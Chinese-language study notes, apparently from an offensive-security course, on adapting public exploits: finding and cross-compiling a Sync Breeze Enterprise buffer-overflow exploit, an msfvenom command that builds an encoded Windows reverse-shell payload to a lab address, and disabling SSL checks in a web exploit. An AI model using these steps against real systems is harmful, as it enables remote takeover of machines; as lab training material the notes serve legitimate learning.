 本篇对应教材第13章，主要内容“修改内存破坏型exp”、“修改WEB应用exp”，记录使用工具和命令

## 13.1 修改内存损坏型exp

```python
searchsploit "Sync Breeze Enterprise 10.0.28"
searchsploit -m 42341
```

跨平台编译

```python
sudo apt install mingw-w64
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
```

报错，需要加入库文件

```python
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```

需要注意的exp常见修改位置

```python
缓冲区大小
jmpesp地址
目标IP和端口
shellcode
shellcode前面加nop
```

msf生成shellcode

```python
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

修改后重新编译

```python
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```

wine执行

```python
sudo wine syncbreeze_exploit.exe
```

## 13.2 修改Web应用exp

常见修改位置

```python
http变为https
ssl校验
账号密码
文件名
webshell
http头中的字段，如csrf_param = "_sk_"
```

```python
...
    response  = requests.post(url, data=data, allow_redirects=False)
...
    response = requests.post(url, data=data, files=txt, cookies=cookies)
...
    response = requests.post(url, data=data, cookies=cookies, allow_redirects=False)
...
```

取消ssl校验

```python
...
    response  = requests.post(url, data=data, allow_redirects=False, verify=False)
...
    response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False)
...
    response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)
...
```

更多更新资料（微信公众号：TopRedTeam）

![](./qrcode.jpg)

